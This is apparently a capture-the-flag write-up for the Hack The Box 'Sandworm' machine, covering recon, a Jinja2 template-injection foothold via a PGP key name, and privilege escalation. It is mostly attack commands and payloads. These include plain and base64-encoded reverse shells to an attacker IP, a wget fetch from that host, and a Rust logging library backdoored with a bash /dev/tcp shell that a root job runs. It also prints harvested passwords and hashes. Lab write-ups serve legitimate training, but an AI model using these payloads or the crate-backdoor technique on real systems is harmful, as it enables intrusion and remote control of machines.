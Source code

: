 # #1 Introduction
<img width="692" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/d90f6781-091a-411d-857d-83aac3e84515">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx sandworm.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- sandworm.htb
```

we got these open ports
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)


about                   [Status: 200, Size: 5584, Words: 1147, Lines: 77, Duration: 211ms]
admin                   [Status: 302, Size: 227, Words: 18, Lines: 6, Duration: 81ms]
contact                 [Status: 200, Size: 3543, Words: 772, Lines: 69, Duration: 55ms]
guide                   [Status: 200, Size: 9043, Words: 1771, Lines: 155, Duration: 73ms]
login                   [Status: 200, Size: 4392, Words: 1374, Lines: 83, Duration: 78ms]
logout                  [Status: 302, Size: 229, Words: 18, Lines: 6, Duration: 71ms]
pgp                     [Status: 200, Size: 3187, Words: 9, Lines: 54, Duration: 110ms]
process                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 89ms]
view                    [Status: 302, Size: 225, Words: 18, Lines: 6, Duration: 110ms]


.gpg
.asc
.sig
.key



https://www.wired.co.uk/article/efail-pgp-vulnerability-outlook-thunderbird-smime

https://efail.de/

we can use a ssti (sever side template injection) by using the RealName of the public key generated and verifying signature of message\
by using {{ 7 * 7 }} for example, we can see that the code is executed cause we have a web template engine named jinja2 (in python)\

So to get a reverse shell, we can use this crafted payload:

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('which id').read() }}


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.56 6666 >/tmp/f \
en base64 \
cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuNTYgNjY2NiA+L3RtcC9mCg== \


{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41Ni82NjY2IDA+JjEiCg==" | base64 -d | bash').read() }}

we are now atlas\
in app.py file, we found a passphrase : $M1DGu4rD$

in the __init__.py file, we found the sql credentials : \

app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21' \
app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'\


to connect to sql since we don't have binaries, we can use python3 and the db module since we now it's available by looking in home/.\

```
drwxrwxr-x 23 atlas atlas  4096 Feb  2  2023 .
drwxrwxr-x  3 atlas atlas  4096 Nov 30  2022 ..
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 backports
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 configparser-5.3.0.dist-info
-rw-rw-r--  1 atlas atlas  1546 Feb  2  2023 configparser.py
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 flask
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask-2.2.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_login
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask_Login-0.6.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_sqlalchemy
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 Flask_SQLAlchemy-3.0.3.dist-info
-rw-rw-r--  1 atlas atlas 57134 Nov 30  2022 gnupg.py
drwxrwxr-x  5 atlas atlas  4096 Feb  2  2023 greenlet
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 greenlet-2.0.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 markupsafe
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 MarkupSafe-2.1.2.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 mysqlclient-2.1.1.dist-info
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 MySQLdb
drwxrwxr-x  2 atlas atlas  4096 May  4  2023 __pycache__
drwxrwxr-x  2 atlas atlas  4096 Nov 30  2022 python_gnupg-0.4.3.dist-info
drwxrwxr-x 15 atlas atlas  4096 Feb  2  2023 sqlalchemy
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 SQLAlchemy-2.0.1.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 typing_extensions-4.4.0.dist-info
-rw-rw-r--  1 atlas atlas 80078 Feb  2  2023 typing_extensions.py
drwxrwxr-x  8 atlas atlas  4096 Feb  2  2023 werkzeug
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Werkzeug-2.2.2.dist-info
```

((b'1', b'Odin', b'pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f'),)
((b'2', b'silentobserver', b'pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d'),)


home/atlas/.config/httpie/sessions/localhost_5000/admin.json
silentobserver:quietLiketheWind22





/sbin/init maybe-ubiquity 
2023/11/15 15:12:11 CMD: UID=0     PID=28613  | /bin/bash /root/Cleanup/clean_c.sh 
2023/11/15 15:12:11 CMD: UID=0     PID=28614  | /bin/rm -r /opt/crates 
2023/11/15 15:12:11 CMD: UID=0     PID=28615  | 
2023/11/15 15:12:11 CMD: UID=0     PID=28616  | /usr/bin/chmod u+s /opt/tipnet/target/debug/tipnet
/usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28636  | /usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28638  | rustc - --crate-name ___ --print=file-names --crate-type bin --crate-type rlib --crate-type dylib --crate-type cdylib --crate-type staticlib --crate-type proc-macro --print=sysroot --print=cfg                                                      
2023/11/15 15:14:01 CMD: UID=1000  PID=28640  | /usr/bin/cargo run --offline 
2023/11/15 15:14:11 CMD: UID=0     PID=28645  | /bin/bash /root/Cleanup/clean_c.sh
/bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline



/opt/crates/logger/src/lib.rs is writable

use std::process::Command;

Command::new("wget").arg("http://10.10.15.56:8000/").output().expect('nothing');

Command::new("rm").arg("-f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.56 6666 >/tmp/f").output().expect('nothing');


extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {

    Command::new("bash")
.arg("-c")
.arg("bash -i >& /dev/tcp/10.10.15.56/6666 0>&1")
.output()
.expect(“failed to execute process”);
    
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}

use std::process::Command;

Command::new("bash")
.arg("-c")
.arg("bash -i >& /dev/tcp/10.10.15.56/6666 0>&1")
.output()
.expect(“failed to execute process”)

